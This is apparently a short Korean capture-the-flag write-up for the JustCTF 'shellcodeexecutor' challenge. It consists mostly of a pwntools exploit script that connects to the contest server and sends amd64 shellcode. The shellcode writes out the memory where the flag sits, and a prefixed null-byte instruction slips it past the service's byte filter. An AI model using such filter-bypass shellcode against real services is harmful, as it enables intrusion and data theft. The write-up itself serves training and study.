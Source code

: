# JustCtf - shellcodeexecutor

 <div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">context.arch<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">'amd64'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#r=process('./shellcodeexecutor')</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">r<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>remote(<span style="color:#63a35c">'2019.nc.jctf.pro'</span>,<span style="color:#0099cc">1446</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.sendlineafter</div><div style="padding:0 6px; white-space:pre; line-height:130%">sa<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.sendafter</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.recvuntil</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">shellcode<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">''</span><span style="color:#63a35c">'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;xor&nbsp;rdi,rdi</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;edi,1</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;lea&nbsp;rsi,[rip+0x6f]</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;xor&nbsp;rdx,rdx</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;edx,0xff</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;xor&nbsp;rax,rax</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;eax,1</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;syscall</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">'</span><span style="color:#63a35c">''</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'2'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'1'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">':'</span>,asm(<span style="color:#63a35c">'xor&nbsp;al,0'</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>asm(shellcode))</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'3'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.interactive()</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

내가 쉘을 실행하는곳 앞에 플래그가 저장되어 있어서 write로 읽었다

바이트 검사하는것은 널바이트를 포함한 이상한 코드 넣어서 우회하였다.